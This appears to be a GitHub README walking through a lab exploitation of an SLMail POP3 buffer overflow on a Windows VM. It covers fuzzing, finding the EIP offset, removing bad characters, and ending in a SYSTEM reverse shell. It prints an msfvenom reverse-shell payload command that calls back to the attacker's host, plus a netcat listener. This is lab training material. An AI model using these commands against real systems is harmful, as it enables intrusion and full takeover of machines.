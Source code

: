 # Windows Buffer Overflow

## Objective:
This project is centered on understanding and executing a Windows buffer overflow. By targeting a specific Windows virtual machine, the project aimed to shed light on the intricacies of buffer overflow vulnerabilities in a Windows environment, emphasizing the steps and tools necessary to exploit such flaws. The key objectives of the project are detailed below:
- **Manual Buffer Overflow:** Engaging in a step-by-step process to perform a buffer overflow against a Windows target, understanding the specific conditions and elements that lead to successful exploitation.
- **Immunity Debugger Integration:** Leveraging the Immunity Debugger to trace and understand the buffer overflow process in real-time. This involved attaching specific processes to the debugger and observing program behavior during exploitation attempts.
- **Character Testing and EIP Control:** Using a fuzzer script to determine the exact point of EIP overwrite, followed by a systematic approach to identifying and removing bad characters to ensure the crafted payload's effectiveness.
- **Payload Crafting and Exploitation:** Utilizing MSFvenom to generate a specific payload, followed by setting breakpoints and adjusting scripts to gain control over the program's execution. Successfully exploiting the vulnerability led to obtaining a reverse shell on the target machine.

## Walkthrough:
- Opened BOF machine, accessed command prompt as admin, ran **“slmgr /rearm”** and **“ipconfig”**. Identified IP as **“10.0.2.10”**.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF1.png" alt="">
</p>

- Installed **“12f1ab027e5374587e7e998c00682c5d-SLMail55_4433.exe”**, rebooted VM, and created a shortcut for **“SLmail.cpl”**.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF2.png" alt="">
</p>

- Launched **“SLmail.cpl”** & **“Immunity debugger”** as admin.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF3.png" alt="">
</p>

- In “Immunity debugger”, attached the **“SLmail.exe”** file and ensure its active state.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF4-1.png" alt="">
</p>
<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF4-2.png" alt="">
</p>

- On my Kali machine, downloaded the **“fuzzerScript.py”** to the BOF folder on the desktop.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF5.png" alt="">
</p>

- In the same directory, created and edited **“fuzzy.py”**, updating the target IP address on line 13.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF6.png" alt="">
</p>

- Performed an nmap scan on the target VM. Identified Port 100 open with “pop3” protocol.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF7.png" alt="">
</p>

- Updated the **“fuzzy.py”** with the target IP and port.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF8.png" alt="">
</p>

- In the BOF directory, executed the script using “python2 fuzzy.py”.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF9.png" alt="">
</p>

- In Immunity debugger, noticed EIP showing **“41414141”**.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF10.png" alt="">
</p>

- Generated an MSF pattern using **“msf-pattern_create -l 3000”**, producing a unique 3000-byte pattern to identify program control flow.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF11.png" alt="">
</p>

- Copied this pattern into the **“fuzzy.py”** script buffer, removing the unnecessary counter and loop.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF12.png" alt="">
</p>

- Reset both SLmail.cpl and Immunity debugger. Ensured SLmail was active in Immunity, then ran **“python2 fuzzy.py”** from Kali.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF13.png" alt="">
</p>

- Observed EIP in Immunity debugger updated to **“39694438”**.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF14.png" alt="">
</p>

- Determined memory control location using **“msf-pattern_offset -l 3000 -q 39694438”**, identifying offset **“2606”**.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF15.png" alt="">
</p>

- Validated this by modifying **“fuzzy.py”** buffer to **“A * 2606 + B * 4”**.

<p align="center">
  <img src="" alt="">
</p>

- Reset SLmail.cpl and Immunity debugger, then executed **“python2 fuzzy.py”**. Noticed EIP as **“42424242”** and EBP as **“41414141”** in Immunity debugger.

<p align="center">
  <img src="" alt="">
</p>

- Updated **“fuzzy.py”** to include bad characters, and modified the buffer accordingly.

<p align="center">
  <img src="" alt="">
</p>

- Restarted slmail.clp and Immunity debugger. Ran **“python fuzzy.py”** from Kali, noting an output of 2865 bytes.

<p align="center">
  <img src="" alt="">
</p>

- Followed ESP in Immunity debugger's dump, identifying sequences to be removed from **“fuzzy.py”**.

<p align="center">
  <img src="" alt="">
</p>

- Repeated the process with updated **“fuzzy.py”**, observing a byte decrease in output.

<p align="center">
  <img src="" alt="">
</p>

- Made another update to **“fuzzy.py”**, removing the identified bad character.

<p align="center">
  <img src="" alt="">
</p>

- Reset tools, searched for mona modules in Immunity debugger, then searched for the appropriate DLL.

<p align="center">
  <img src="" alt="">
</p>

- Crafted shellcode with **“msfvenom -p windows/shell_reverse_tcp LPORT=4444 LHOST=10.0.2.6 -f c -b "\x00\x0a\x0d"”**.

<p align="center">
  <img src="" alt="">
</p>

- Updated “fuzzy.py” with the crafted shell code.

<p align="center">
  <img src="" alt="">
</p>

- Set up a listener on Kali with **“nc -lvp 4444”**.



- Restarted SLmail, ran **“fuzzy.py”**. The netcat listener received the code, granting system access. Confirmed with **“whoami”** command showing “nt authority\system”.
